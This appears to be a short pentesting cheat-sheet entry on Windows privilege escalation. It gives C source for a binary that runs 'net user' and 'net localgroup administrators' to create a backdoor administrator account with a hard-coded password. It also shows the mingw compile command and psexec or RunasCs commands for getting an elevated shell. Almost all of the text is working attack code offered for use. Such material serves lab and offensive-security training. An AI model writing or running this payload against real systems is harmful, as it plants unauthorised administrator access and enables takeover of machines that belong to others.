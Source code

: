 # Creating a binary for use in exploitation
```bash
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

Compile code
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

# Getting Shell
After getting the user as an administrator, use psexec.exe to get a cmd as administrator
```bash
psexec.exe -accepteula -s cmd.exe

# OR

RunasCs.exe dave2 password123! <cmd>
```
